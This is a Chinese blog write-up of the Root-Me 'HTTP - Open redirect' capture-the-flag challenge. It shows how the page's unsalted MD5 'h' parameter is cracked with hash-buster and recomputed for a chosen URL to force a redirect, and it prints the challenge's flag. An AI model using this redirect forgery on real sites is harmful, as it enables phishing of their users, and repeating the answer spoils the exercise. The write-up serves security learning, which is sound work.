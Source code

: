 <!--yml
category: 未分类
date: 2022-04-26 14:42:59
-->

# CTF-rootme 题解之HTTP - Open redirect_weixin_30952535的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30952535/article/details/99600334](https://blog.csdn.net/weixin_30952535/article/details/99600334)

LINK:[https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

　　  [http:challenge01.root-me.org/web-serveur/ch52/](challenge01.root-me.org/web-serveur/ch52/%20)

Reference:[https://github.com/zayzayzayzay/root-me-4/tree/master/Web-Server](https://github.com/zayzayzayzay/root-me-4/tree/master/Web-Server)

　　　　   [https://github.com/yelynn1/Root-me/blob/master/Web_server.md](https://github.com/yelynn1/Root-me/blob/master/Web_server.md)

在目标网页空白处右击查看源代码得到关键信息如下：

```
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <h1>Social Networks</h1>
<a href='?url=**https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'**>facebook</a>
<a href='?url=**https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0**'>twitter</a>
<a href='?url=**https://slack.com&h=e52dc719664ead63be3d5066c135b6da**'>slack</a>
<style type="text/css"> 
```

 其中&h=参数为md5加密的值，在线破解未果，使用BlackArch内置程序hash-buster可以破解，确定该hash值即为网址的加密结果。

```
[ BlackArch burpsuite ]# hash-buster -s e52dc719664ead63be3d5066c135b6da
_  _ ____ ____ _  _    ___  _  _ ____ ___ ____ ____
|__| |__| [__  |__|    |__] |  | [__   |  |___ |__/
|  | |  | ___] |  |    |__] |__| ___]  |  |___ |  \  v3.0

[!] Hash function : MD5
https://slack.com

```

 构造链接过程如下:

```
[ BlackArch burpsuite ]# echo -n 'https://baidu.com'|md5sum|awk '{print $1}'
bb6e082d5c360ce6a0c64f926feea905

```

 链接地址为：http://challenge01.root-me.org/web-serveur/ch52/?url=https://baidu.com&h=bb6e082d5c360ce6a0c64f926feea905,直接访问会瞬间跳转，

可以使用查看源代码链接**view-source:**http://challenge01.root-me.org/web-serveur/ch52/?url=https://baidu.com&h=bb6e082d5c360ce6a0c64f926feea905

得到flag为**e6f8a530811d5a479812d7b82fc1a5c5**。

```
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is **e6f8a530811d5a479812d7b82fc1a5c5**</p><script>document.location = 'https://baidu.com';</script> 
```